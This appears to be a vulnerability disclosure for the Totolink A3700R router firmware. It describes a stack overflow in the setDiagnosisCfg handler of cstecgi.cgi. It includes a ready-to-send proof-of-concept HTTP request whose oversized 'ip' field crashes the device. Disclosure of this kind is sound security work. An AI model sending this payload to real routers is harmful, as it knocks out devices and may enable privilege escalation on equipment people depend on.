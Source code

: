 
### **Overview**：
Affected Device: Totolink A3700R 

Affected Firmware Version: V9.1.2u.6165_20211012 

Vulnerability: Stack overflow leading to denial of service and privilege escalation

Firmware Download Link: [Firmware Download Link](https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip) 

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)


![](Pasted%20image%2020231022165035.png)

### **Vulnerability**：

This vulnerability is located in the `cstecgi.cgi` file within the `FUN_00422a38` function, with the alias `setDiagnosisCfg`.

![](Pasted%20image%2020231023202539.png)


`cstecgi.cgi` processes different function interfaces based on the value of `topicurl`. While it validates the legality of incoming commands, filtering out command injection vulnerabilities, it does not impose length restrictions on the incoming parameter `ip`. The `sprintf` function is used to format and concatenate the parameter `ip` into the `acStack_90` variable, which results in a stack overflow vulnerability.


### **POC**:

To reproduce the vulnerability, you can use a real device or simulate it using QEMU. The following POC can be used to exploit it:


~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 507
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{
"topicurl": "setting/setDiagnosisCfg",
"ip":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
}
~~~

### **Impact**：

![](Pasted%20image%2020231023202309.png)